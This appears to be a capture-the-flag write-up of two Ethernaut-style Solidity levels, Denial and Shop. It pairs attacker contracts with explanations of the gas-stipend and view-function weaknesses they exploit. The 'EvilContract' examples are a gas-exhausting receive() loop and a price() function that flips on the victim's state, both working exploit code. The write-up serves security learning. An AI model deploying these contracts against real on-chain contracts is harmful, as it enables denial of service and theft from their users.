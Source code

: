 Our evil contract, btw don't try to run it on Remix as it will crash instead use truffle console or something similar to try it 

```js
contract EvilContract { 
    receive() external payable {
        while(true);  // the line that crashed my whole VM
    }
}
```

Challenge solved ✅
 
 > This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.
If you are using a low level call to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example call.gas(100000).value().

Typically one should follow the checks-effects-interactions pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.


## Shop

```js
interface Shop {

  function buy()  external ;
  function isSold()  external view returns (bool) ;
  }

contract EvilContract { 
    address victimAddress;
    Shop shopContract;

    function setVictimAddress( address _victimAddress) public { 
        victimAddress= _victimAddress;
        shopContract = Shop(_victimAddress);
    }

    function price() external view returns (uint){
        return shopContract.isSold()?0:100;
    }

    function buy() public {
        shopContract.buy();
    }
}
```
